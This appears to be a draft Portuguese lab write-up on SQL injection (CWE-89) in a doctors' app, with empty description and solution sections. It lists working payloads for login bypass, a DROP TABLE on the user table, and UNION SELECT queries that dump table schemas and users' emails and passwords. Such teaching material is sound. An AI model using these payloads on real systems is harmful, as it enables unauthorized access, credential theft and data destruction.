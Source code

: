 ## CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
- https://cwe.mitre.org/data/definitions/89.html

---
## Descrição

...

---
## Explorar a vulnerabilidade

...

# TODO -> Mostrar screenshots

---
## Solução

...


sql injection nos doctors, login e register

login -> password

login com o user
' or 1=1 ) -- //

login com user 1 (admin)
') or 1=1 -- //


register -> qualquer campo
'); DROP TABLE app_user; -- //


doctor -> search

mostrar tabelas
1' AND 1=2 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table' -- //

mostrar users, emails, passwords
1' AND 1=2 UNION SELECT name_, email, password_ FROM app_user -- //